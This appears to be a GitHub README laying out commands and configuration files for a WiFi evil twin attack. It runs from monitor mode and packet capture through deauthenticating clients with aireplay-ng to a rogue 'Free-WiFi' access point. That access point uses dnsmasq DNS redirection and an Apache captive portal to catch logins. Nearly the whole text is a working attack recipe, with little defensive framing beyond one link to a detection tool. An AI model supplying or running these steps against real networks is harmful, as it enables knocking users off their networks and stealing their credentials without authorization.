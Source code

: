 # HacKingWiFi
## HacKingWiFi 
### Algorithm Commands to HacKing WiFi 

# [1] Choosing Wireless Adapter / Get Interface:
  - [1.1] Cheking for Wireless Network interface: `iwconfig`  
  - [1.2] Cheking for Wireless Network interface: `ifconfig`

---

# [2] Start Monitoring Mode & Checking Injection Option 
  - [2.1] Starting Monitor mode: `airmon-ng start $INTERFACE`
  - [2.2] Monitoring: `aireplay-ng --test $INTERFACE`

---
  
# [3] Scan Wireless’s Area
  - [3.1] Sniff Networks Area Information : `airodump-ng $INTERFACE`
  - [3.2] Start Capturing Packets: `airodump-ng --bssid $BSSID -c $CHANNEL_NUMBER -w $OUTPUT_NAME $INTERFACE`
  - [3.3] Inject Packets into Wireless Network: `aireplay-ng --deauth 10 -a $MAC_TARGET $INTERFACE`

---

# [4] Analysis Captured Files With WireShark:
  - [4.1] Start WireShark: `wireshark $OUTPUT_NAME.cap`
    - Looking for Authentication Files

---

# [5] Set Up Access point:
  - [5.1] Create dnsmasq Configuration files: `nano dnsmasq.conf`
```SHELL
#Set the wireless interface
interface=wlan0

#Set the IP range for the clients
dhcp-range=192.168.1.2,192.168.1.250,12h

#Set the gateway IP address
dhcp-option=3,192.168.1.1

#Set DNS server address
dhcp-option=6,192.168.1.1

#Redirect all requests to 192.168.1.1
address=/#/192.168.1.1
```
  - [5.2] Create hostpad Configuration file: `nano hostapd.conf` 
```SHELL
#Set wireless interface
interface=wlan0

#Set network name
ssid=Free-WiFi

#Set channel
channel=11

#Set driver
driver=nl80211
```
  - [5.3] Run Commands 1: `dnsmasq -C /directory_to_dnsmasq.conf`
  - [5.4] Run Commands 2: `hostapd /directory_to_hostapd.conf -B`
  - [5.5] `airbase-ng -e $WIRELESS_NETWORK -c $CHANNEL $INTERFACE` 

---

# [6] Setting up Captive Portal
  - [6.1] Download and Move Portal files to `/var/www/html`
  - [6.2] Edit `nano /etc/apache2/sites-enabled/000-default.conf` & Add to end of it:
```shell

<Directory "/var/www/html">
RewriteEngine On
RewriteBase /
RewriteCond %{HTTP_HOST} ^www\.(.*)$ [NC]
RewriteRule ^(.*)$ http://%1/$1 [R=301,L]

RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteRule ^(.*)$ / [L,QSA]
</Directory>

```
  - [6.3] Start Apache2 Server: `sudo service apache2 start`
  - [6.4] Connect to `Free-WiFi`, and that will been automatically redirected to the logging page.
 
 ---
 
 # Sources
 
 - Learning: [WiFi Hacking using Evil Twin Attacks and Captive Portals](https://github.com/Anlominus/Studies/tree/main/Udemy/IT%20%26%20Software/Network%20%26%20Security/Security%20HacKing/WiFi%20Hacking%20using%20Evil%20Twin%20Attacks%20and%20Captive%20Portals)
- Tool: [EvilAP_Defender](https://github.com/moha99sa/EvilAP_Defender)
